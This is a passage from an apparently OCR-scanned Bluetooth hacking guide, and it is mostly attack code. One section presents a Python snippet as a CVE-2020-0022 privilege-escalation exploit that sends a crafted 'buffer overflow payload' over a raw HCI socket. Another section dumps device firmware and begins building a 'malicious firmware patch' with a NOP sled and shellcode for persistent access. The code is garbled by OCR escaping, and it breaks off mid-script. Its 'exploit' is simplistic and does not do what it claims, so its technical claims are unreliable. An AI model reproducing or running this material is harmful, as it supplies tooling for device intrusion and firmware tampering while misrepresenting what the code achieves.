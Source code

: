     \# Step 2: Exploit BlueZ service vulnerabilities  
    \# CVE-2020-0022 exploitation example  
    python3 \-c "  

import socket\
import struct

def bluez_exploit():\
try:\
\# Create HCI socket (requires bluetooth group membership)\
sock = socket.socket(socket.AF_BLUETOOTH, socket.SOCK_RAW,
socket.BTPROTO_HCI)

        \# Craft privilege escalation payload  
        \# This is a simplified example \- actual exploits are more complex  
        payload \= struct.pack('\<H', 0x0401)  \# HCI\_RESET command  
        payload \+= b'\\x00' \* 100  \# Buffer overflow payload  
            
        sock.send(payload)  
        print('Privilege escalation payload sent')  
            
    except PermissionError:  
        print('Need bluetooth group membership for exploitation')  
    except Exception as e:  
        print(f'Exploitation failed: {e}')

bluez_exploit()\
"\
}

#### **Bluetooth Firmware Exploitation**

\# Firmware-level exploitation for persistent access\
firmware_exploit() {\
echo "Attempting firmware-level exploitation..."

    \# Step 1: Dump Bluetooth firmware  
    echo "Dumping current firmware..."  
    hcitool cmd 0x3f 0x0000 \> firmware\_dump.bin 2\>&1  
        
    \# Step 2: Analyze firmware for vulnerabilities  
    echo "Analyzing firmware..."  
    hexdump \-C firmware\_dump.bin | head \-20  
        
    \# Step 3: Attempt firmware modification  
    \# WARNING: This can brick devices \- only for authorized testing  
    echo "Attempting firmware modification..."  
        
    \# Create malicious firmware patch  
    python3 \-c "  

import struct

def create_firmware_patch():\
\# Create a simple firmware patch\
patch = b'\\x90' \* 1024 \# NOP sled\
patch += b'\\x31\\xc0' \# xor eax, eax (example shellcode)

